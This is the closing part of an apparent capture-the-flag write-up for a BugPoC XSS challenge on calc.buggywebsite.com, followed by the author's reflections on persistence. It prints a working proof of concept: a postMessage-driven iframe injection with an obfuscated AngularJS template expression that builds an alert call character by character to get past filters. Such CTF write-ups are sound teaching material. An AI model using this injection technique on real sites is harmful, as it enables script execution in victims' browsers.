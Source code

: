 ![WINNER!](/bugpoc-xss-challenge-2/success.png)

The final PoC is as follows:

```html
<!DOCTYPE HTML>

<html>
    <body>
        <iframe name="mriframe" src="http://calc.buggywebsite.com/frame.html" onload="run()" width="500px" height="700px"></iframe>

        <script>
            function run() {
                mriframe.postMessage('<iframe srcdoc="<script src=angular.min.js><\/script><script src=script.js><\/script><div ng-app=Calculator ng-controller=ArthmeticController><h1>{{a=((![]+[])[+!+[]]).constructor.fromCharCode(97)+((![]+[])[+!+[]]).constructor.fromCharCode(108)+((![]+[])[+!+[]]).constructor.fromCharCode(101)+((![]+[])[+!+[]]).constructor.fromCharCode(114)+((![]+[])[+!+[]]).constructor.fromCharCode(116)+((![]+[])[+!+[]]).constructor.fromCharCode(40)+((![]+[])[+!+[]]).constructor.fromCharCode(112)+((![]+[])[+!+[]]).constructor.fromCharCode(97)+((![]+[])[+!+[]]).constructor.fromCharCode(114)+((![]+[])[+!+[]]).constructor.fromCharCode(101)+((![]+[])[+!+[]]).constructor.fromCharCode(110)+((![]+[])[+!+[]]).constructor.fromCharCode(116)+((![]+[])[+!+[]]).constructor.fromCharCode(46)+((![]+[])[+!+[]]).constructor.fromCharCode(108)+((![]+[])[+!+[]]).constructor.fromCharCode(111)+((![]+[])[+!+[]]).constructor.fromCharCode(99)+((![]+[])[+!+[]]).constructor.fromCharCode(97)+((![]+[])[+!+[]]).constructor.fromCharCode(116)+((![]+[])[+!+[]]).constructor.fromCharCode(105)+((![]+[])[+!+[]]).constructor.fromCharCode(111)+((![]+[])[+!+[]]).constructor.fromCharCode(110)+((![]+[])[+!+[]]).constructor.fromCharCode(46)+((![]+[])[+!+[]]).constructor.fromCharCode(104)+((![]+[])[+!+[]]).constructor.fromCharCode(111)+((![]+[])[+!+[]]).constructor.fromCharCode(115)+((![]+[])[+!+[]]).constructor.fromCharCode(116)+((![]+[])[+!+[]]).constructor.fromCharCode(110)+((![]+[])[+!+[]]).constructor.fromCharCode(97)+((![]+[])[+!+[]]).constructor.fromCharCode(109)+((![]+[])[+!+[]]).constructor.fromCharCode(101)+((![]+[])[+!+[]]).constructor.fromCharCode(41);updateCurrNum(a);calculate();1+1}}</h1><iframe name=theiframe></iframe></div>"></iframe>', "*");
            }
        </script>
    </body>
</html>
```

# Conclusion

The biggest thing with this challenge for me was persistence. I could have given up when I hit a roadblock, but because I persisted and tried to remember past experiences with XSS, I managed to solve this challenge.

If you didn’t manage to solve the challenge in the allotted time, don’t worry. Now you know how to solve it and hopefully now you know some new tricks that you can use to solve a future challenge that you may face.

Write-ups like these never truly capture the long and arduous process that leads towards a final exploit. I tried my best to walk you through my thought processes so you get a picture of how I struggled so you don’t feel alone if you didn’t manage to solve it in time.

If you have any questions about my solution or suggestions, hit me up on Twitter and I’ll do my best to answer. Please Tweet publicly and @ me so that other people can also learn from your questions/suggestions.

Till next time.